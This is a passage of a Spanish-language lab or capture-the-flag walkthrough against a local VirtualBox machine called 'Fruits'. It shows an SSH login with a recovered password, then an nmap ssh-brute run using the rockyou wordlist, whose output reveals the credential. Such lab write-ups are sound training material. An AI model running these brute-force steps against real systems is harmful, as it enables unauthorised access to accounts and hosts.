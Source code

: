 Muy bien, ya tenemos la contraseña del **usuario bananaman**.

Podemos probar si funciona:
```bash
ssh bananaman@192.168.1.20
The authenticity of host '192.168.1.20 (192.168.1.20)' can't be established.
ED25519 key fingerprint is SHA256:TF64A9yYMasdsa4PGrHQ7iMqmX8ai4/Cznc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.20' (ED25519) to the list of known hosts.
bananaman@192.168.1.20's password: 
Linux Fruits 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 27 17:46:39 2024 from 192.168.1.20
bananaman@Fruits:~$ whoami
bananaman
```
Genial, si funciona.

Vamos a probar otras herramientas que también nos pueden ser útiles para aplicar fuerza bruta.

<br>

<h3 id="Nmap">Utilizando nmap Contra Servicio SSH</h3>

No había probado esta opción, por lo que será interesante ver el resultado.

* Primero debemos guardar el nombre del usuario en un archivo de texto:
```bash  
nano users.txt
--------------
bananaman
```

* Usaremos el script `ssh-brute` de **nmap** para aplicar la fuerza bruta. Ahí, indicaremos nuestro archivo de texto y el **rockyou.txt**:
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt 192.168.1.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 15:40 CST
NSE: [ssh-brute] Trying username/password pair: bananaman:bananaman
NSE: [ssh-brute] Trying username/password pair: bananaman:123456
NSE: [ssh-brute] Trying username/password pair: bananaman:12345
NSE: [ssh-brute] Trying username/password pair: bananaman:123456789
NSE: [ssh-brute] Trying username/password pair: bananaman:password
NSE: [ssh-brute] Trying username/password pair: bananaman:iloveyou
...
...
...
NSE: [ssh-brute] Trying username/password pair: bananaman:celtic
Nmap scan report for 192.168.1.20
Host is up (0.00089s latency).
.
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     bananaman:celtic - Valid credentials
|_  Statistics: Performed 251 guesses in 196 seconds, average tps: 1.5
MAC Address: xx (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 207.59 seconds
```